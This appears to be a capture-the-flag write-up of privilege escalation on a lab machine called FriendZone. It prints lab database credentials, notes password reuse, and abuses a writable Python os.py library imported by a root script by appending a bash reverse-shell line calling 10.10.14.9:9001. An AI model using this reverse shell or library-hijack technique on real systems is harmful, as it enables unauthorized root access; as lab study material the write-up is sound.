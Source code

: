 # 25 - PrivEsc

# Mysql creds
```
www-data@FriendZone:/var/www$ cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```


# Password Reuse
![](vx_images/3869049613155.png)



# reporter.py

```py
friend@FriendZone:/opt/server_admin$ ls -l
total 4
-rwxr--r-- 1 root root 424 Jan 16  2019 reporter.py
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

Unfortunately this python script doesn't do anything and we don't have write permission on this file


# Writeable python os library
![](vx_images/4554007586490.png)

os.py is writeable if root imports this library we gain arbitrary code execution. As we know from reporter.py os library is imported in there. Let's try to abuse this functionality.


# os.py reverse shell
```
friend@FriendZone:~$ tail -n 1 /usr/lib/python2.7/os.py 
system("bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'")
```

Add the system function call to the bottom of the page otherwise it won't work because `system` is defined somewhere in this library

# Root shell
![](vx_images/4654216914797.png)



